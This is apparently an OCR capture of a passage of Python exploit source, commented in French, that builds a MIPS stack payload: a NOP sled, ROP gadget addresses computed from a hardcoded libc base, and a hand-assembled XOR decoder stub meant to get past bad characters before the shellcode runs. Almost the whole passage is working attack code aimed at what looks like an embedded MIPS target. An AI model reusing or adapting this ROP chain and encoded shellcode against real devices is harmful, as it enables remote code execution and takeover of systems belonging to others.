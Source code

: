 ```python
# CONSTRUCTION DU SHELLCODE SUR LA PILE
# =============================================================================

print("[*] Construction du shellcode sur la pile...")

# Début du shellcode avec 6 instructions NOP pour l'alignement
shellcode = nop * 6

# =============================================================================
# GADGETS ROP - PARTIE 2 (stockés sur la pile)
# =============================================================================

# 3ème gadget ROP : sera utilisé comme nouvelle adresse de retour
# Base LibC (0x2b259000) + Offset gadget (0x47EB8) = 0x2b2a0eb8
ra2 = "\x2b\x2a\x0e\xb8"
print("[+] 3ème ROP gadget: 0x2b2a0eb8")

# Registres pour la suite de la chaîne ROP
s0_2 = nop

# 4ème gadget ROP : sautera vers notre shellcode
# Base LibC (0x2b259000) + Offset gadget (0x1f8c0) = 0x2b2788c0
s1_2 = "\x2b\x27\x88\xc0"
print("[+] 4ème ROP gadget: 0x2b2788c0")

s2_2 = nop

# Assemblage des données sur la pile dans l'ordre attendu par les gadgets
shellcode += s0_2    # Sera lu par le gadget
shellcode += s1_2    # Adresse du 4ème gadget
shellcode += s2_2    # Padding
shellcode += ra2     # Adresse du 3ème gadget
shellcode += nop * 6 # Alignement supplémentaire

# =============================================================================
# SHELLCODE - ENCODEUR XOR
# =============================================================================

print("[*] Ajout de l'encodeur XOR...")

# Cet encodeur s'exécutera en PREMIER pour décoder les "bad characters"
# Il utilise XOR avec la clé 99999999 (0x5F5E0FF)
sc_encode = (
    "\x3c\x11\x99\x99"  # lui $s1, 0x9999         ; Charger partie haute de la clé
    "\x36\x31\x99\x99"  # ori $s1, $s1, 0x9999    ; Compléter la clé XOR
    "\x27\xb2\x03\xe8"  # addiu $s2, $sp, 0x3e8   ; $s2 = $sp + 1000
    "\x22\x52\xff\x0c"  # addi $s2, $s2, -244     ; Ajuster l'adresse
    "\x8e\x4a\xfe\x0c"  # lw $t2, -500($s2)       ; Charger 1ères données encodées
    "\x01\x51\x18\x26"  # xor $v1, $t2, $s1       ; Décoder avec XOR
    "\xae\x43\xfe\x0c"  # sw $v1, -500($s2)       ; Réécrire décodées
    "\x22\x52\xff\xf8"  # addi $s2, $s2, -8       ; Passer aux données suivantes
    "\x8e\x4a\xfe\x0c"  # lw $t2, -500($s2)       ; Charger 2èmes données
    "\x01\x51\x18\x26"  # xor $v1, $t2, $s1       ; Décoder
    "\xae\x43\xfe\x0c"  # sw $v1, -500($s2)       ; Réécrire
    "\x22\x52\xff\x90"  # addi $s2, $s2, -144     ; Passer aux 3èmes données
    "\x8e\x4a\xfe\x0c"  # lw $t2, -500($s2)       ; Charger
    "\x01\x51\x18\x26"  # xor $v1, $t2, $s1       ; Décoder
    "\xae\x43\xfe\x0c"  # sw $v1, -500($s2)       ; Réécrire
)

print("[+] Encodeur XOR ajouté (clé: 99999999)")

# =============================================================================
```